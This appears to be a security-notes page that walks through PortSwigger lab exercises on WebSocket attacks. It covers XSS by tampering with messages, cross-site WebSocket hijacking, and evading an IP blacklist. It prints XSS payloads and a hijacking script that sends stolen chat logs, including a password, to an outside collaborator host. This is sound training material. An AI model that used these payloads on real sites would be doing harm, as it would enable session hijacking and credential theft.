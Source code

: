 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WebSockets

{% hint style="success" %}
A **WebSocket** is a communication protocol that provides full-duplex communication channels over a single TCP connection. It is designed to be implemented in web browsers and web servers but can be used by any client or server application.
{% endhint %}

## General Information

### Process

1. **Handshake**: The connection starts with an HTTP handshake, where the client sends an upgrade request to **switch the protocol** from `HTTP` to `WebSocket`.
2. **Data Frames**: After the handshake, **data is exchanged** in frames (text or binary data).
3. **Connection Lifecycle**: The connection remains open, allowing either party to send data until one side closes the connection.

## Examples

### XXS via WebSockets

> _The example below is based on PostSwigger's_ [Manipulating _WebSocket messages to exploit vulnerabilities_](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) _lab._

If we sent a payload directly from the Live chat functionality, it gets encoded (Figure 1).

```javascript
<img scr=x onerror=alert()>;
```

<figure><img src="../../.gitbook/assets/web_websockets_1.png" alt=""><figcaption><p>Figure 1: Inspecting the WebSocket's traffic.</p></figcaption></figure>

We can intercept the traffic, decode the payload manually, and let the traffic be forwarded (Figure 2).

<figure><img src="../../.gitbook/assets/web_websockets_2.png" alt="" width="563"><figcaption><p>Figure 2: Manipulating the payload &#x26; achieving XSS.</p></figcaption></figure>

### WebSocket Hijacking

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

To achieve WebSocket Hijacking we need to perform a CSRF[^1] attack on a WebSocket handshake, which is possible if:

1. The handshake relies on cookies.
2. There are no CSRF tokens.

We notice that we are assigned a `session` cookie with the `SameSite` attribute set to `None`, which is a prerequisite for this attack (Figure 3).

<figure><img src="../../.gitbook/assets/web_websockets_3.png" alt=""><figcaption><p>Figure 3: Checking the session's cookie flags.</p></figcaption></figure>

After inspecting the WebSocket connection behaviour, we can create a JS[^2] payload and retrieve the chat logs which include `carlos`'s password (Figure 4).

{% code overflow="wrap" %}
```javascript
<script>
var ws = new WebSocket('wss://0a4700f603803331818f583600220083.web-security-academy.net/chat');
ws.onopen = function() {
  ws.send("READY");
}

ws.onmessage = function(event) {
  fetch('https://6gnqllgs5kwtsbomr9wxdigcx33urmfb.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
}
</script>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/web_websockets_4.png" alt=""><figcaption><p>Figure 5: The WebSocket Hijacking process.</p></figcaption></figure>

### Blacklisted IPs

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

In an effort to replicate our [XXS via WebSockets](websockets.md#xxs-via-websockets) attack process, we get our IP address blacklisted (Figure 6).

```javascript
<img src=x onerror=alert()>;
```

<figure><img src="../../.gitbook/assets/web_websockets_5.png" alt=""><figcaption><p>Figure 6: Sending an XSS payload gets our IP address blocked.</p></figcaption></figure>

We can try different [IP-tracking HTTP headers](authentication/rate-limiting.md) to bypass this filter and send a slightly obfuscated payload instead (Figure 7).

```javascript
<img scr=x oNeRroR=alert`1`>
```

<figure><img src="../../.gitbook/assets/web_websockets_6.png" alt=""><figcaption><p>Figure 7: Bypassing the server's filters.</p></figcaption></figure>

[^1]: Cross-Site Request Forgery

[^2]: JavaScript

